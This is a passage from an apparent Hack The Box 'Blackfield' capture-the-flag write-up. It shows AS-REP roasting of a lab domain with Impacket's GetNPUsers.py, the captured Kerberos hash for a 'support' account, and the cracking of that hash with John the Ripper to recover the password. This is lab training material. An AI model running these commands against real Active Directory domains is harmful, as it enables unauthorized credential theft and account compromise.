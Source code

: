 This is the tool we looking for, let’s give a try.

![Untitled](/img/htb-forest/296181db8d754f9989a8d896078908ba.png)

Since we already got some list of users, I decided to use them.

```nix
root@kali:~/CTF/HTB/Boxes/Blackfield# GetNPUsers.py -usersfile smb_users -dc-ip 10.10.10.192 -request blackfield.local/
Impacket v0.9.20 - Copyright 2019 SecureAuth Corporation

[-] Kerberos SessionError: KDC_ERR_C_PRINCIPAL_UNKNOWN(Client not found in Kerberos database)
[-] Kerberos SessionError: KDC_ERR_C_PRINCIPAL_UNKNOWN(Client not found in Kerberos database)
[-] Kerberos SessionError: KDC_ERR_C_PRINCIPAL_UNKNOWN(Client not found in Kerberos database)
[-] Kerberos SessionError: KDC_ERR_C_PRINCIPAL_UNKNOWN(Client not found in Kerberos database)
[-] Kerberos SessionError: KDC_ERR_C_PRINCIPAL_UNKNOWN(Client not found in Kerberos database)
[-] Kerberos SessionError: KDC_ERR_C_PRINCIPAL_UNKNOWN(Client not found in Kerberos database)
[-] Kerberos SessionError: KDC_ERR_C_PRINCIPAL_UNKNOWN(Client not found in Kerberos database)
[-] Kerberos SessionError: KDC_ERR_C_PRINCIPAL_UNKNOWN(Client not found in Kerberos database)
[-] Kerberos SessionError: KDC_ERR_C_PRINCIPAL_UNKNOWN(Client not found in Kerberos database)
[-] Kerberos SessionError: KDC_ERR_C_PRINCIPAL_UNKNOWN(Client not found in Kerberos database)
[-] Kerberos SessionError: KDC_ERR_C_PRINCIPAL_UNKNOWN(Client not found in Kerberos database)
.
.
.
.
.
$krb5asrep$23$support@BLACKFIELD.LOCAL:61a39b1896f521c0e2f97e2ea34899e6$8045a7e886363c063c13640534e10c5526b9bbe6f89b0a9abb77323b58a384bc244dc66a7b491f8977722875f986f34554d3d5459f998e64def8c5aaf0d415164c46980e9aec221de9abe3cf49cd816fa51b8077128b948c025f831fd80ade0c47734da39ca14dc6e15ef2da5b441e009c887d758a978a505f786caf1a6b833d81dc1fa8a6a3e29bb098149c279622e524b295c7f07946cde5a2abe243209846af5591e0fad7cc67bbb028580064d02ef70461cfb108605be0faf5f3316ede61a80e5e6118f432c2bc27d5f949e23a2d75fba492f80b17a92beabc830b2624204a8cdd7bdddd17343d1ae810eae5d199274a79f0
.
.
.
.
[-] Kerberos SessionError: KDC_ERR_C_PRINCIPAL_UNKNOWN(Client not found in Kerberos database)
[-] Kerberos SessionError: KDC_ERR_C_PRINCIPAL_UNKNOWN(Client not found in Kerberos database)
[-] Kerberos SessionError: KDC_ERR_C_PRINCIPAL_UNKNOWN(Client not found in Kerberos database)
[-] Kerberos SessionError: KDC_ERR_C_PRINCIPAL_UNKNOWN(Client not found in Kerberos database)
[-] Kerberos SessionError: KDC_ERR_C_PRINCIPAL_UNKNOWN(Client not found in Kerberos database)
```

And we got a hash here.

I cracked the hash using John

```nix
root@kali:~/CTF/HTB/Boxes/Blackfield# john --wordlist=/usr/share/wordlists/rockyou.txt kerb.john 
Using default input encoding: UTF-8
Loaded 1 password hash (krb5asrep, Kerberos 5 AS-REP etype 17/18/23 [MD4 HMAC-MD5 RC4 / PBKDF2 HMAC-SHA1 AES 256/256 AVX2 8x])
Will run 8 OpenMP threads
Press 'q' or Ctrl-C to abort, almost any other key for status
#00^BlackKnight  ($krb5asrep$23$support@BLACKFIELD.LOCAL)
1g 0:00:00:09 DONE (2020-06-10 09:30) 0.1028g/s 1474Kp/s 1474Kc/s 1474KC/s #1WIF3Y.."chito"
Use the "--show" option to display all of the cracked passwords reliably
Session completed
root@kali:~/CTF/HTB/Boxes/Blackfield# john --show kerb.john 
$krb5asrep$23$support@BLACKFIELD.LOCAL:#00^BlackKnight

1 password hash cracked, 0 left
```
